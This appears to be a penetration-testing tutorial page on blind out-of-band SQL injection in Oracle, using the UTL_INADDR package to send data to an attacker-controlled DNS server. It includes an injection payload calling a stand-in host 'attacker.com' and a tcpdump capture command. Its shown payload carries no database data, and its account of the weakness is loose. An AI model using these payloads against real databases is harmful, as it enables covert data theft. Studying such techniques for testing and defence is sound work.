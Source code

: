 ```yaml
---
title: Exploiting UTL_INADDR for DNS Data Exfiltration
description: Learn to execute blind out-of-band SQL injection using Oracle's UTL_INADDR.
keywords:
- UTL_INADDR
- Oracle SQL injection
- DNS exfiltration
- network address translation
- blind SQL injection
---
```


# UTL_INADDR

## Context

This article aims to demonstrate how to leverage Oracle's UTL_INADDR package for executing blind out-of-band SQL injection attacks. The reader should possess a working understanding of SQL basics, HTTP requests, database functions, Oracle SQL injections, and specifically blind out-of-band injection techniques. The focus here is on exploiting the UTL_INADDR package to facilitate DNS-based data exfiltration.

## Theory

### UTL_INADDR Functionality in Oracle

UTL_INADDR is an Oracle package primarily utilized for network address translation tasks. It is designed to enable the resolution of hostnames to IP addresses and vice versa within database environments. This functionality, while intentional, introduces a potential vulnerability. The package can be manipulated to perform DNS-based data exfiltration when leveraged in SQL injection attacks. This is achieved by crafting SQL payloads that force the database server to make DNS requests to an external server controlled by the attacker.

### Blind Out-of-Band Injection via UTL_INADDR

The attack sequence for exploiting this package involves injecting crafted SQL payloads that trigger DNS requests. These requests are directed to a malicious DNS server owned by the attacker. This method capitalizes on a protocol weakness in Oracle's DNS request handling, allowing for data exfiltration. The key vulnerability here is the lack of input validation, which enables arbitrary DNS queries, effectively exfiltrating information from the database without direct observation of the database responses.

## Practice

### Exploiting UTL_INADDR for DNS Exfiltration

To exploit the UTL_INADDR package for DNS-based data exfiltration, follow these steps:

- **Craft an SQL payload to trigger a DNS request.** The objective is to use the UTL_INADDR package to perform an outbound DNS request that reaches the attacker's DNS server. 
   
   ```sql
   SELECT UTL_INADDR.get_host_address('attacker.com') FROM dual;
   ```

- **Monitor your DNS server for incoming requests.** Setting up a DNS server designed to capture queries allows you to listen for requests coming from the target database server. Capture DNS traffic using a network packet analyzer.

   ```bash
   tcpdump -i eth0 port 53
   ```

- **Analyze the DNS queries to extract exfiltrated data.** Once the database server sends DNS queries, analyze the captured packets to interpret the data. Information can be encoded in the DNS request, allowing an attacker to infer data from the database.

By executing these steps, the database will connect to an outside server under an attacker's control, effectively permitting the attacker to exfiltrate data covertly through DNS queries.

## Tools

- **tcpdump**: This tool is essential for capturing and analyzing network packet traffic, particularly DNS queries made during the blind out-of-band injection process using UTL_INADDR.